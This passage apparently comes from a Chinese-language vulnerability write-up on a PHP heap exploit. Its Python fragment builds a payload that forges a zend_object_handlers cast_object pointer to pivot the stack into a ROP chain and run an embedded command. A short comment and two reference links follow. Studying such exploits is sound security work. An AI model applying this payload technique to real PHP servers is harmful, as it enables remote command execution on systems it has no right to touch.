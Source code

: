 ```python
exp += bytes("CCCCCCCC"*16,encoding="latin-1")  # heap_addr + 0x58
exp += p64(magic_addr)     # heap_addr + 0xd8    伪造 zend_object_handlers->cast_object 进行栈迁移
exp += bytes("r",encoding="latin-1")+b"\x00"*7 # heap_addr + 0xe0
exp += command.ljust(80,b'\x00') #heap_addr + 0xe8
exp += bytes("AAAAAAAA",encoding="latin-1") 
```

在栈上布局`fake zval`的同时还需要考虑rop chain的布局，这个exp很有意思。

### 参考文献

[http://www.wupco.cn/?p=4504](http://www.wupco.cn/?p=4504)
 
[https://www.freebuf.com/vuls/116398.html](https://www.freebuf.com/vuls/116398.html)

